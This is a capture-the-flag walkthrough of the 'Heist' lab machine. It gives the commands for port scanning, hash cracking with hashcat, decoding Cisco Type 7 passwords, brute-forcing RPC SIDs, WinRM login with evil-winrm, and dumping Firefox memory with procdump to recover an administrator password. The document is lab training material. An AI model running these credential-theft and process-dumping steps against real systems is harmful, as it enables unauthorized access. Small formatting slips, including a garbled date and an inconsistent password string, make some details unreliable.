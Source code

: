# Heist Walkthrough

Date: 2024/08/211.

## Ports Enumeration

I began with a full port scan to identify open services on the target machine:

```bash
nmap -Pn -p 80,135,445,5985,49669 -A -v -oN scan.txt -oX scan.xml <target>
```

The scan revealed the following open ports and services:

```
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
| http-title: Support Login Page
|_Requested resource was login.php
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
135/tcp   open  msrpc         Microsoft Windows RPC
445/tcp   open  microsoft-ds?
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49669/tcp open  msrpc         Microsoft Windows RPC
```

The target is likely running Microsoft Windows Server 2019 based on the OS fingerprint.2.

## Port 80 (HTTP) Enumeration

Navigating to the web server on port 80 presented a login page. The page allowed login either as an authenticated user or as a guest.

### Guest Login:

Logging in as a guest provided some valuable information:

Users:
* admin
* rout3r
* hazard

Configuration File:

* Located at http://heist.htb/attachments/config.txt, which contained encrypted passwords.

### Decrypting Passwords

The configuration file provided three encrypted passwords:

* $1$pdQG$o8nrSzsGXeaduXrjlvKc91 (MD5 hash)
* 0242114B0E143F015F5D1E161713 (Cisco Type 7)
* 02375012182C1A1D751618034F36415408 (Cisco Type 7)

### MD5 Hash:

The first password is encrypted using MD5 (indicated by the $1$ prefix). I decrypted it using hashcat:

```bash
hashcat -m 500 <password_file> /usr/share/wordlists/rockyou.txt
```

### Cisco Type 7:

The other two passwords were Cisco Type 7 encrypted, which I decrypted using an online tool: Cisco Password Cracker.

Decrypted passwords:
* stealth1agent
* $uperP@ssword
* Q4)sJu\Y8qz*A3?d3.

## Initial Access via RPC

Using the `hazard` credentials, I gained access via the RPC protocol with `rpcclient`:

```bash
rpcclient -U "hazard" --password="stealth1agent" <target>
```

## User Enumeration:

To enumerate users, I used a script that cycles through possible SIDs:

```bash
for i in {0..1050}; do 
  rpcclient -U "hazard%stealth1agent" <target> -c "lookupsids S-1-5-21-4254423774-1266059056-3197185112-$i"
done
```

This revealed several new users, including:

* SUPPORTDESK\Administrator
* SUPPORTDESK\Chase

## Gaining User Access via WinRM

With the `Chase` credentials (`Q4)sJu\Y8qz*A3?d`), I connected to the target using WinRM:

```bash
evil-winrm -i <target> -u chase -p "Q4)sJu\Y8qz*A3?d"
```

I successfully obtained the user flag from the Chase account.

## Privilege Escalation to Administrator

### Enumeration

On the desktop, I found a `todo.txt` file with minimal hints. I used `winPEAS` for automated enumeration but found nothing conclusive. However, I noticed active Firefox processes and decided to dump their memory:

```powershell
Get-Process | Where-Object { $_.ProcessName -eq "firefox" }
```

### Dumping Firefox Memory

Using `procdump`, I dumped the Firefox process:

```powershell
.\procdump.exe 6696 -accepteula
```

Within the dump files, I discovered the administrator password: `4dD\!5}x/re8]FBuZ`.

## Accessing the Administrator Account

Finally, I logged in as Administrator using the discovered credentials and obtained the root flag:

```bash
evil-winrm -i <target> -u administrator -p "4dD\!5}x/re8]FBuZ"
```

## Summary

This box required careful enumeration and persistence. The initial access was challenging but rewarding as I gained further insight into Windows enumeration techniques. The privilege escalation, particularly through process memory dumping, provided a valuable learning experience.

### Key Takeaways:

* Web enumeration and password decryption
* RPC enumeration techniques
* Utilizing WinRM for remote access
* Process dumping and analysis for privilege escalation